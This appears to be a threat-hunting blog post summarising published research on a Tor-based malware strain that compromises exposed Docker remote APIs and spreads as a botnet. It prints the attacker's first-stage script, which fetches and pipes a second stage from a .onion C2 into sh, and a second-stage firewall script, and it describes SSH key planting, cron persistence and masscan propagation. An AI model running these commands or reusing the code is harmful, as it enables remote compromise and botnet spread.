 ```yaml
---
title: "Docker API Malware Variant with Botnet Capabilities"
date: 2025-09-11
draft: false
tags: ["docker", "malware", "tor", "api", "threat-hunting"]
---
```


### Initial Exploitation

The attackers start by sending an initial HTTP request to a Docker remote API server to create a new container. In this case, the Akamai Threat Hunting team used the Beelzebub honeypot to discover this threat. The attacker then creates a new container image running Alpine Linux that mounts the host's filesystem and executes a base64-encoded script.

### Script executed

```bash
apk update && apk add curl tor && tor & \
while ! curl -fs --proxy socks5h://localhost:9050 https://checkip.amazonaws.com; do sleep 10; done; \
curl -fs --proxy socks5h://localhost:9050 http://wtxqf54djhp5pskv2lfyduub5ievxbyvlzjgjopk6hxge5umombr63ad[.]onion/static/docker-init.sh | sh
```

The script installs "curl" and "tor", then starts a Tor daemon "tor&amp;", and attempts to obtain the public IP address of the victim by looping through every 10 seconds until the IP is requested through the Tor proxy (curl -fs --proxy&nbsp;socks5h://localhost:9050 https://checkip.amazonaws.com; do sleep 10; done;). The attacker is using a SOCKS5 proxy locally to send data to the Tor daemon, which then gets sent to the Tor network and then to the ".onion" C2. The attacker uses this C2 to pull their next-stage script (docker-init.sh) and execute it (curl -fs --proxy socks5h://localhost:9050 http://wtxqf54djhp5pskv2lfyduub5ievxbyvlzjgjopk6hxge5umombr63ad[.]onion/static/docker-init.sh).

Second Stage: docker-init.sh

This script attempts to block access to the Docker API port (2375) using whichever firewall utility it finds:
```sh
PORT=2375
PROTOCOL=tcp

for fw in firewall-cmd ufw pfctl iptables nft; do
  if command -v "$fw" >/dev/null 2>&1; then
    case "$fw" in
      firewall-cmd)
        firewall-cmd --permanent --zone=public \
          --add-rich-rule="rule family='ipv4' port port='${PORT}' protocol='${PROTOCOL}' reject"
        firewall-cmd --reload
        ;;
      ufw)
        ufw deny "${PORT}/${PROTOCOL}"
        ufw reload
        ;;
      pfctl)
        echo "block drop proto ${PROTOCOL} from any to any port ${PORT}" | pfctl -a custom_block -f -
        ;;
      iptables)
        iptables -I INPUT 1 -p "${PROTOCOL}" --dport "${PORT}" -j DROP
        ;;
      nft)
        if ! nft list tables | grep -q "inet"; then
          nft add table inet
          nft add chain inet filter { type filter hook input priority 0 \; }
        fi
        nft add rule inet filter input "${PROTOCOL}" dport "${PORT}" drop
        ;;
    esac
    break
  fi
done
```

The docker-init.sh script first adds the attacker's public key under the SSH authorized public keys (/root/.ssh/authorized_keys) and installs tools for propagation, persistence, and evasion, like masscan (internet-scale port scanner), libpcap (capture network data), libpcap-dev, zstd (decompress payloads), and torsocks (reroute IP traffic from CLI to Tor). The script also creates a cron job that executes every minute and iterates over multiple firewall utilities to block access to port 2375 (used by Docker API).

The attacker then sends an HTTP POST request back to the .onion C2 server to let the attacker know that the compromise was successful. Once this communication is established, the attackers download a binary from another Tor site onto the victim. This binary includes a dropper that contains the content it wants to drop, preventing it from communicating with the internet. The dropper drops a file (dockerd) that executes a masscan that searches for other open Docker API open ports (2375), and if it finds one, it will go through the same container creation process. The attacker's primary goal, which was not seen by earlier variants of the malware, is an initial version of a complex botnet, but the researchers have not found a complete version of it so far.


## References

- [BleepingComputer — Hackers hide behind Tor in exposed Docker API breaches](https://www.bleepingcomputer.com/news/security/hackers-hide-behind-tor-in-exposed-docker-api-breaches/)  
- [Akamai — Off Your Docker: Exposed APIs Are Targeted in New Malware Strain](https://www.akamai.com/blog/security-research/new-malware-targeting-docker-apis-akamai-hunt)  
- [Trend Micro — Tor-enabled Docker exploit](https://www.trendmicro.com/en_fi/research/25/f/tor-enabled-docker-exploit.html)  